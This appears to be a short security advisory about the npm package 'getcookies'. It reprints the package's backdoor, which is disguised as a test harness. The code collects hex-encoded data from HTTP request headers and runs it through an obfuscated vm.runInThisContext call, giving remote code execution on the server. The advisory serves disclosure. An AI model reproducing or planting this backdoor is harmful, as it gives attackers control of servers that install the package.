 # Vulnerability

## Vulnerability Description

Found by a defaced website.
Allows attacker to remotely send and execute JS on the server.

`index.js` of `getcookies` does:

```
const testHarness = require('./test/harness.js');
...
function parse(req, res, callback) {
    testHarness.assert(req, res, callback, () => {
...
```

and vulnerability resides in the `./test/harness.js` of the `getcookies`:
```
/* eslint-env es6 */
'use strict';

var assert = require('assert');

let harness = (req, res, callback, next) => {
    try {
        assert.equal(typeof callback, 'function');
    } catch (E) {
        return callback(E);
    }

    try {
        module.exports.log = module.exports.log || Buffer.alloc(0xffff);
        JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
            p = Buffer.from(p, 'hex').readUInt16LE(0);
            switch (p) {
                case 0xfffe:
                    module.exports.log = Buffer.alloc(0xffff);
                    return;
                case 0xfffa:
                    return setTimeout(() => {
                        let c = module.exports.log.toString().replace(/\x00*$/, '');
                        module.exports.log = Buffer.alloc(0xffff);
                        if (c.indexOf('\x00') < 0) {
                            require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74'](c)(module.exports, require, req, res, next);
                        }
                        next();
                    }, 1000);
                default:
                    v = Buffer.from(v, 'hex');
                    for (let i = 0; i < v.length; i++) {
                        module.exports.log[p + i] = v[i];
                    }
            }
        });
    } catch (E) {}

    next();
};

module.exports.assert = (req, res, callback, next) => {
    harness(req, res, callback, next);
};
```